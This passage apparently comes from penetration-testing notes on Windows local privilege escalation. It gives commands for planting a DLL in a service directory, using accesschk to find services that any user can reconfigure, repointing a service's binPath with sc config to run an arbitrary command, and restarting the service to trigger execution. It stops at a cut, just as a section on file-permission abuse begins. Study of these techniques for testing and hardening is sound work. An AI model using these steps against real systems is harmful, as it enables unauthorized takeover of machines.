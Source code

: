 4. **Deploy the Malicious DLL:**
   - Copy the compiled DLL to the directory where the service expects to find the missing DLL:
     ```bash
     copy Z:\hijackme.dll "C:\path\to\service\directory"
     ```

5. **Restart the Service:**
   - Restart the service to trigger the malicious DLL:
     ```bash
     sc stop <service_name>
     sc start <service_name>
     ```



#### e) **Service Misconfiguration Exploitation DC permission (Change Configuration being granted to the Everyone group).**
Identify services with improper permissions using **AccessChk** and modify them to execute custom commands if non-admin users have the right to change configurations. Follow these steps:

1. **Check Service Permissions:**
   - Use the `accesschk.exe` utility from the Sysinternals suite to review service permissions. Run the following command:
     ```bash
     %USERPROFILE%\SysinternalsSuite\accesschk.exe -uwvc "your_username" *
     ```
   - Replace `"your_username"` with the name of the user account you're checking. Look for `SERVICE_CHANGE_CONFIG` in the output, which indicates that this user can modify the service configuration.

2. **Interpret the Results:**
   - If the `SERVICE_CHANGE_CONFIG` permission is found, the user can modify the service’s configuration, including its executable path, allowing for potential misuse.

3. **Modify the Service Path:**
   - Use the `sc config` command to change the service’s binary path, specifying a command or script you wish to execute:
     ```bash
     sc config <service_name> binPath= "<custom_command>"
     ```
   - Replace `<service_name>` with the name of the target service and `<custom_command>` with the command you want to run.

4. **Restart the Service:**
   - Restart the service to apply the new configuration and trigger the execution of your specified command:
     ```bash
     sc stop <service_name>
     sc start <service_name>
     ```

Here’s a generic version of the tip for file permission exploitation based on the example provided:

#### f) **File Permission Exploitation**
Exploit services with misconfigured file permissions by replacing their executables with custom payloads. Follow these steps:
